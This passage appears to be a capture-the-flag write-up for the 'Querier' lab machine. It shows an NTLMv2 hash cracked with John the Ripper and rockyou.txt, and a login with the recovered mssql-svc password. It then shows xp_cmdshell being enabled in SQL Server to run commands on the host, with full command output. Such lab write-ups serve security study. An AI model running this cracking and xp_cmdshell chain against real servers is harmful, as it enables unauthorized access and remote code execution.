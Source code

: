 The account is using a weak password that we can crack with the `rockyou.txt` wordlist:

```
# john -w=/usr/share/wordlists/rockyou.txt --fork=4 hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
corporate568     (mssql-svc)
1 0g 0:00:00:06 DONE (2019-02-17 19:17) 0g/s 428905p/s 428905c/s 428905C/s CHIKITITA1
3 0g 0:00:00:06 DONE (2019-02-17 19:17) 0g/s 406211p/s 406211c/s 406211C/s Pippa1862
2 0g 0:00:00:06 DONE (2019-02-17 19:17) 0g/s 421156p/s 421156c/s 421156C/s HIKID25
4 1g 0:00:00:06 DONE (2019-02-17 19:17) 0.1515g/s 339332p/s 339332c/s 339332C/s corporate568
Waiting for 3 children to terminate
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The password is: `corporate568`

Now we can log in with that the `mssql-svc` account then enable `xp_cmdshell` and get RCE:

```
# /usr/share/doc/python-impacket/examples/mssqlclient.py -windows-auth querier/mssql-svc@querier.htb
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL> EXEC sp_configure 'show advanced options', 1;
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXEC sp_configure 'xp_cmdshell', 1;
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> xp_cmdshell "dir c:\users"
output

--------------------------------------------------------------------------------

 Volume in drive C has no label.
 Volume Serial Number is FE98-F373
NULL
 Directory of c:\users
NULL
01/28/2019  11:41 PM    <DIR>          .
01/28/2019  11:41 PM    <DIR>          ..
01/28/2019  10:17 PM    <DIR>          Administrator
01/28/2019  11:42 PM    <DIR>          mssql-svc
01/28/2019  10:17 PM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)   6,438,649,856 bytes free
NULL
```
